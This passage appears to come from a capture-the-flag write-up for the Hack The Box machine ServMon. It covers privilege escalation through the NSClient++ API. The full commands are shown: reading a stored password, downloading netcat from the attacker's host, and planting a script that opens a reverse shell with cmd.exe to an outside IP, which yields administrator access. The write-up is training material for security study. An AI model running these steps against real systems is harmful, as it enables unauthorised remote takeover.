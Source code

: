 
    ; in flight - TODO
    [/settings/default]

    ; Undocumented key
    password = ew2x6SsGTxjRwXOT

    ; Undocumented key
    allowed hosts = 127.0.0.1
    <SNIP>

Then we upload `nc.exe` from `/usr/share/windows-binaries` using a python simple
http server.

    :::text
    nadine@SERVMON C:\Temp>curl http://10.10.14.200:8081/nc.exe -o nc.exe
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    100 59392  100 59392    0     0  59392      0  0:00:01 --:--:--  0:00:01  264k

We know that the NSClient is only available from localhost. So we mount an SSH
tunnel (`-D` option) and use it as a socks proxy in our browser. Nevertheless
the application is buggy and unstable from a web browser (either Firefox, Chromium or Chrome).

Therefore we use the [NSClient API](https://docs.nsclient.org/api/) directly
from our SSH connection (or we can use `proxychains` with our SOCKS tunnel)
in order to put a simple script that will call our netcat binary.

    :::text
    nadine@SERVMON C:\Temp>curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/me.bat --data-binary "C:\Temp\nc.exe 10.10.14.200 443 -e cmd.exe"
    Enter host password for user 'admin':
    Added me as scripts\me.bat
    nadine@SERVMON C:\Temp>curl -s -k -u admin https://localhost:8443/api/v1/queries
    Enter host password for user 'admin':
    [{"description":"Check status of scheduled jobs.","metadata":{},"name":"check_tasksched","query_url":"https://localhost:8443/api/v1/queries/check_tasksched/","title":"check_tasksched"},{"description":"Legacy version of check_tasksched","m
    etadata":{},"name":"checktasksched","query_url":"https://localhost:8443/api/v1/queries/checktasksched/","title":"CheckTaskSched"},{"description":"External script: scripts\\me.bat","metadata":{},"name":"me","query_url":"https://localhost:8
    443/api/v1/queries/me/","title":"me"},{"description":"External script: scripts\\rvsh.bat","metadata":{},"name":"rvsh","query_url":"https://localhost:8443/api/v1/queries/rvsh/","title":"rvsh"}]

Then we run a listener on our box and at the same time we call our command. This
give a shell as administrator on the box and we are able to retrieve the root
flag.

    :::text
    nadine@SERVMON C:\Temp>curl -s -k -u admin "https://localhost:8443/api/v1/queries/me/commands/execute?time=3m"
    Enter host password for user 'admin':

    kali@kali:~/pown/htb_servmon/srv$ sudo nc -l -p 443
    Microsoft Windows [Version 10.0.18363.752]
    (c) 2019 Microsoft Corporation. All rights reserved.

    C:\Program Files\NSClient++>type C:\Users\Administrator\Desktop\root.txt
    type C:\Users\Administrator\Desktop\root.txt
    f16c1d179c239f4ffe2ea0821759198b

# Wrapping up

What a pain. The box was really unstable on public servers. At the end the box
is not really difficult.
